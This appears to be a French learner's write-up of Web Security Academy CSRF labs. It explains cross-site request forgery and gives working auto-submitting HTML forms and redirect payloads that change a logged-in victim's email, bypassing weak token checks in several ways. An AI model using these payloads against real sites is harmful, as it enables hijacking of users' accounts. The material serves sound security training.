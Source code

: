 Un attaque CSRF consiste à faire effectuer à l'utilisateur une action sur un site A en mettant du code sur un autre site B.

Par exemple a.com a une fonctionnalité de modification d'email.
Si un site b.com (très méchant), crée une page web qui fait une action automatique vers le site a.com (non protégé), il pourra envoyer sa page à des utilisateurs qui déclencherons des actions sur le site a.com ou il sont auth et dans la mesure ou leurs cookie sont envoyé avec la requêtes :

```html
<html>
	<body>
		<form action="https://vulnerable-website.com/email/change"   method="POST"> 
		<input type="hidden" name="email" value="pwned@evil-user.net" />
		</form> 
		<script> document.forms[0].submit(); </script> 
	</body>
</html>
```

### Lab: CSRF vulnerability with no defenses
L'attaque fonctione, aucune défense n'a était mise en place. Quelque qui est authentifié sur le site et et qui visite une page contenant se code verra son compte être lié à l'email `toto@gmail.com`.
```html
<html>
	<body>
	<form class="login-form" name="change-email-form" action="https://0aaf002f0376312481fa39bb00610017.web-security-academy.net/my-account/change-email" method="POST">
	<input required type="email" name="email" value="toto@gmail.com">
	</form>
	<script> document.forms[0].submit(); </script> 
	</body>
<html>
```

### Lab: CSRF where token validation depends on request method
Ici on remarque que la csrf token n'est tester que sur les requêtes post (on test de mettre un token csrf non valide sur cette méthode). Il se trouve que le formulaire de réinitialisation fonctionne aussi avec un argument en GET :
```html
<html>
	<body>
	<script>
	window.location.href = "https://0a1c00a404ab4742a5aa77b400e800db.web-security-academy.net/my-account/change-email?email=wiener@normal-user.net";
	</script>
	</body>
<html>
```

### Lab: CSRF where token validation depends on token being present
Bon alors là c'est marrant. Le site vérifie le csrf token (youpie !!!) que si il est présent dans la requête (Ooops...).
```
<html>
<body>
<form class="login-form" name="change-email-form" action="https://0a7800970382c27f80f23ff100c500ad.web-security-academy.net/my-account/change-email" method="POST">
<input required type="email" name="email" value="wiener@normal-user.net">
</form>
<script> document.forms[0].submit(); </script> 
</body>
</html>
```
On supprime juste l'input "csrf_token".

### Lab: CSRF where token is not tied to user session
Dans certain cas les tokens csrf sont bien vérifié mais ne sont pas lié à une sessions. Par conséquence un attaquant peu récupérer un token valide et il le sera pour tout les autres utilisateurs (Dommage).
```
<html>
<body>
<form class="login-form" name="change-email-form" action="https://0af600e303eb0fa480393a89009f0087.web-security-academy.net/my-account/change-email" method="POST">

<input required type="email" name="email" value="toto@gmail.com">
<input required type="hidden" name="csrf" value="MU8Qh93PhnH54M81mvUAzlg2829W8A9L">

</form>
<script> document.forms[0].submit(); </script> 
</body>
</html>
```
Les tokens sont ici à usage unique on peu en récupérer un nouveau à chaque fois en rafraîchissant la page.


J'ai fait une erreur sur celui là. Au début je pensais pouvoir overwrite le cookie de la victime pour le mettre le miens directement en JS.
J'avais mis ça dans mon script mais c'est useless puisque le cookie en question a l'attribut http only :
```
document.cookie = "csrfKey=ratata"
```


